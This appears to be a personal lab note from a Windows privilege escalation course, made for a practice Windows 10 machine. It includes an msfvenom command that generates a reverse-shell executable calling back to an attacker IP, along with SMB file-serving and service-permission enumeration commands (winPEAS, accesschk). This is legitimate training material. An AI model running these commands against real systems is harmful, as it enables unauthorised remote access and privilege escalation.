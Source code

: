 Powershell SMB enable

Made this from the Privelege Escalation course from Tib3rius ⁣

Udemy link of his course:https://www.udemy.com/course/windows-privilege-escalation/

This was for a demo windows 10 machine, I used for practise.

> Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All

```zsh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .

```
Generating reverse shell using msfvenom

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f exe -o reverse.exe
```

Permissions to access a certain resource in Windows are
controlled by the access control list (ACL) for that resource.
Each ACL is made up of zero or more access control entries
(ACEs).
Each ACE defines the relationship between a principal (e.g. a
user, group) and a certain access right.

To check your privilege on a system 
```cmd
whoami /priv
```
## Services Privilege Escalation

```cmd
.\winPEASany.exe quiet servicesinfo

```

```cmd
sc qc  daclsvc

```
Using accesschk.exe

- -u Suppress errors
- -v Verbose 
- -c Windows service
- -d Only process directories or top-level keys
- -w Show objects which have right access 
- -q Omit banner


```cmd
.\accesschk.exe /accepteula -uwcqv user daclsvc

```

For quering using sc
